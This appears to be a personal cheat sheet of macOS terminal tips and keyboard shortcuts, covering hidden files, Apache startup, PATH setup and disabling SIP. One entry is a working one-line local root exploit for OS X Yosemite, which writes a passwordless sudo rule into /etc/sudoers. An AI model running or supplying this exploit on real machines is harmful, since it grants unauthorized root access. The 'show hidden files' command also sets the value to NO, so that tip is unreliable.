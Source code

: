 ### Always show hidden files

```bash
defaults write com.apple.finder AppleShowAllFiles NO
```

### Start Apache on system startup

```bash
sudo launchctl load -w /System/Library/LaunchDaemons/org.apache.httpd.plist
```

### Keyboard shortcuts

```bash
DEL = FN + BACKSPACE
PAGEUP/PAGEDOWN = FN + UP/DOWN
END = FN + RIGHT
HOME = FN + LEFT
MINIMIZE CURRENT WINDOW = CMD + M
SCREEN SHOT (PART) = CMD + SHIFT + 4
SCREEN SHOT (DESKTOP) = CMD + SHIFT + 3
CLOSE ACTIVE WINDOW = CMD + W
EXIT PROGRAM = CMD + Q
```

### Yosemite exploit for root access

```bash
echo 'echo "$(whoami) ALL=(ALL) NOPASSWD:ALL" >&3' | DYLD_PRINT_TO_FILE=/etc/sudoers newgrp; sudo -s
```

### Add mysql to terminal shell

```bash
echo 'export PATH=/usr/local/mysql/bin:$PATH' >> ~/.bash_profile
. ~/.bash_profile
```

### Install file (e.g. composer.phar) globally

```bash
sudo mv %file% /usr/local/bin/%file%
```

### Disable SIP (System Integrity Protection)

- restart OSX
- hold CTRL+R key to reboot into `Recovery Mode`
- go to `Utilities` > `Terminal`
- type `csrutil disable`
- reboot

### Disable `Your disk is almost full` notification

- disable `SIP` (check solution above)
- type in the terminal:

```
launchctl unload -w /System/Library/LaunchAgents/com.apple.diskspaced.plist
```
